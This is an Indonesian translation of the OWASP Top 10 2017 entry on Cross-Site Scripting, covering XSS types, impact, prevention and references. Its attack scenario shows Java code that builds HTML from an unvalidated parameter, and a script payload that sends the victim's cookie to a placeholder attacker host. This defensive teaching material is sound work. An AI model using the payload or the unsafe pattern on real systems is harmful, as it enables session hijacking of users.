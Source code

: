 # A7:2017 Cross-Site Scripting (XSS)

| Agen ancaman / vektor serangan | Kelemahan Keamanan          | Dampak              |
| -- | -- | -- |
| Akses Lvl: Eksploitasi 3 | Prevalensi 3 : Deteksi 3 | Teknis 2 : Bisnis |
| Tool otomasi dapat  mendeteksi dan melakukan exploit pada semua tiga type XSS, and ada Framework eksploitasi yang tersedia secara gratis. | XSS adalah kerentanan paling umum kedua di OWASP Top 10, dan  masih ditemukan di sekitar dua pertiga dari semua aplikasi. Tool otomasi dapat menemukan beberapa kerentanan XSS secara otomatis, Khususnya dalam aplikasi pemrograman seperti PHP, J2EE / JSP, dan ASP.NET. | Dampak pada XSS untuk kategori medium untuk Reflected XSS dan DOM XSS dan Kritikal untuk stored XSS, dengan eksekusi kode jarak jauh di browser korban, seperti mencuri kredensial, sesi, atau mengirimkan malware ke korban |

## Apakah Aplikasi itu Rentan?

Ada Tiga Jenis XSS, biasanya menargetkan browser pengguna:

* **Reflected XSS**: Aplikasi atau API menyertakan masukan pengguna yang tidak divalidasi dan tidak lolos sebagai bagian dari keluaran HTML. Serangan yang berhasil memungkinkan penyerang mengeksekusi HTML dan JavaScript sewenang-wenang di browser korban. Biasanya pengguna perlu berinteraksi dengan beberapa tautan berbahaya yang mengarah ke laman yang dikendalikan penyerang, seperti situs web watering hole berbahaya, iklan, atau sejenisnya
* **Stored XSS**: Aplikasi atau API menyimpan masukan pengguna yang tidak dibersihkan yang dilihat di lain waktu oleh pengguna lain atau administrator. XSS yang disimpan sering dianggap sebagai risiko tinggi atau kritis.
* **DOM XSS**: Kerangka kerja JavaScript, aplikasi halaman tunggal, dan API yang secara dinamis menyertakan data yang dapat dikontrol penyerang ke halaman rentan terhadap DOM XSS. Idealnya, aplikasi tidak akan mengirim data yang dapat dikontrol penyerang ke JavaScript API yang tidak aman.
Serangan XSS termasuk pencurian sesi user, account takeover, _MFA bypass_, _DOM node replacement_ atau merubah tampilan website target (seperti panel login trojan), 
serangan terhadap browser pengguna seperti unduhan perangkat lunak berbahaya, pencatatan log kunci, dan serangan sisi klien lainnya.

## Bagaimana Cara Pencegahannya

Pencegahan XSS membutuhkan pemisahan pada data yang tidak terpecaya dari konten browser yang aktif. Ini dapat dicapai dengan:

* Menggunakan kerangka kerja yang secara otomatis lolos dari XSS berdasarkan desain, seperti Ruby on Rails terbaru, React JS. Pelajari batasan perlindungan XSS setiap framework dan tangani kasus penggunaan yang tidak tercakup dengan tepat.
* Mengeluarkan semua data yang tidak dipercaya berdasarkan konteks HTML (_body, attribute, JavaScript, CSS, atau URL)_ akan menutup celah Reflected and Stored XSS. Lihat OWASP XSS Prevention Cheat Sheet untuk detail dari teknik mengeluarkan data.
* Menerapkan pengkodean berkonteks peka saat memodifikasi dokumen browser di sisi klien bertindak melawan DOM XSS. Jika hal ini tidak dapat dihindari, teknik pelolosan sensitif konteks serupa dapat diterapkan ke API browser seperti yang dijelaskan di OWASP Cheat Sheet 'DOM based XSS Prevention'.
* Memungkinkan [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)sebagai kontrol mitigasi pertahanan mendalam terhadap XSS. Ini efektif jika tidak ada kerentanan lain yang memungkinkan penempatan kode berbahaya melalui penyertaan file loka (e.g. path traversal menimpa atau pustaka yang rentan dari jaringan pengiriman konten yang diizinkan).

## Contoh Skenario Serangan

**Skenario #1**: Aplikasi menggunakan data tidak tepercaya dalam pembuatan kode HTML berikut tanpa validasi:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
Penyerang memodifikasi parameter ‘CC’ dalam browser menjadi:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Serangan ini disebabkan ID sesi korban untuk dikirim ke situs web penyerang, sehingga memungkinkan penyerang untuk membajak sesi pengguna saat ini.

**Note**: Penyerang dapat menggunakan XSS untuk mengalahkan pertahanan Cross-Site Request Forgery (CSRF) otomatis yang mungkin digunakan aplikasi

## Referensi

### OWASP

* [OWASP Proactive Controls: Encode Data](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://wiki.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://wiki.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://wiki.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://wiki.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://wiki.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://wiki.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://wiki.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://wiki.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project)

### External

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
